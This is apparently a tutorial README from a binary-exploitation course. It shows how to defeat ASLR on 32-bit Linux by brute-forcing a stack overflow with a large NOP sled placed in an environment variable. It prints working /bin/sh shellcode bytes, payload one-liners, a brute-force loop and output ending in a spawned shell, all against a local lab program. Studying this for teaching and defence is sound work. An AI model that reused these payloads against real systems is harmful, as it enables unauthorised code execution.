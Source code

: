 # Shellcode injection with ASLR

In the previous [Lecture](../Lecture2/README.md) I talked about, injection of
shell code when the ASLR was disabled. ASLR allows adds randomization of
different segment address. So its not very trivial to identify the buffer address. The address of buffer keep on changing with every run of the program. So when the return address points to the buffer address (that keeps on changing), putting the executable shell code in memory is not so easy.  

To disable ALSR,  
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`  
To enable the same,  
`echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space`  

#### Scenario 1: With `nop - \x90` sled.
Suppose I appended few `nop` (no operation instruction) before the shellcode.

#### NOP
> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is an assembly language instruction, programming language statement, or computer protocol command that does nothing.  

Lets say I added 20 `nop` before the shellcode.
`python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print "\x90"*20+shellcode+"\x90"*(bufferlen-len(shellcode)-20)+"BBBB"+struct.pack("<I", starting address of the buffer)'`
And make return address point to any of the **21** locations, from the staerting address of the buffer to the starting address of the shellcode ( address of buffer + 20), then I will spawn the shell indeed. But **what is the probability?** That return address(which is nothing but buffer address) will end up in any of those locations. The higher the probability, higher are the chances for exploitation.  

The starting address of buffer would be `0xff_ _ _ _ _ _ _` in which the first `0xff` is fixed, because the buffer will lie in the upper portion of memory.  
To test this, create a simple C program:
```C
int main()
{
    int a;
    printf("%p\n", &a);
    return 0;
}
```  
Compile and run this program for say 10 runs.
```bash
$ for i in {1..10};do ./a.out;done
0xffe918bc
0xffdc367c
0xffeaf37c
0xffc31ddc
0xffc6a56c
0xffbcf9bc
0xffbcf02c
0xffbf1dcc
0xfffe386c
0xff9547cc
```
The observation is same what we have assumed. You can test the programs for more trials in case you are not convinced.
It seems that every time the variable is loaded at different addresses in the stack. The address can be represented as 0xffXXXXXc(where X is any hexadecimal digit). With some more testing, it can be seen that even the last half-byte(‘c’ over here) depends on the relative location of the variable inside the program. So in general, the address of a variable on the stack is 0xffXXXXXX. This amounts to 16^6 = 16777216 possible cases. It can be easily seen that the earlier method, mentioned above to exploit the stack, will now work with only 21/16777216 probability(21 is the length of NOP sled, if any of those NOP bytes happens to be where the modified return address is, the shellcode will be executed).  
That means on an average, 1 in ~ 40K runs, the shellcode will be executed. This is way less. In any way we got he hint that somehow we need to increase the length of the `nop` sled on the buffer, but the buffer length is limited. Increasing the size of `nop` will increase the chances of shellcode to run. But How?  

Why not take the help of **environment varibale**?

#### Scenario 2: Putting long shellcode in env varibale
In my vagrant system, I can make the environment variable way long the size of the buffer. My system allows the environment variable to be of length 100K. The reason we are picking environment variable is that, they are itself loaded just above the stack.
Lets create environment variable, say `SHELLCODE`.  
`export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
`
And instead of putting the return address to starting address of the buffer, I will put the return address to any of the randomly picked higher memory address. Lets say any address in between highest address `0xffffffff` and `0xff9547cc`. I am picking `0xff882222`.

`$ for i in {1..100}; do ./vuln $(python -c 'import struct;print "A"*112 + struct.pack("<I", 0xff882222)'); done`

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$whoami
vagrant
```

After few attempts we got the shell. :cool: isn't it !! 



